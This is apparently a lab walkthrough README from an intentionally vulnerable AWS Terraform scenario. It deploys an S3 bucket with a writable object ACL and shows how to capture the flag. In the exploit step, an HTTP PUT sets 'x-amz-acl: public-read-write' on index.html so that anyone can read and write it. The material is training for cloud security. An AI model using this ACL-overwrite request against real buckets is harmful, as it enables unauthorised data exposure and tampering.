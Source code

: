 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/object_storage_service/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

After typing yes, the scene will be built automatically and quickly

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

We see the list of files that try to access index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

Access is forbidden, but we can modify whether the object can be read or written by adding `public-read-write` to `x-amz-acl` in the request header via the PUT method

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Then we get the ACL of this object and we see that all users can now read and write to it

![image-20220426172506589](../../../images/image-20220426172506589.png)

Afterwards, when you visit index.html, you successfully get the flags

![image-20220426172534934](../../../images/image-20220426172534934.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

enter yes

![image-20220426173554665](../../../images/image-20220426173554665.png)
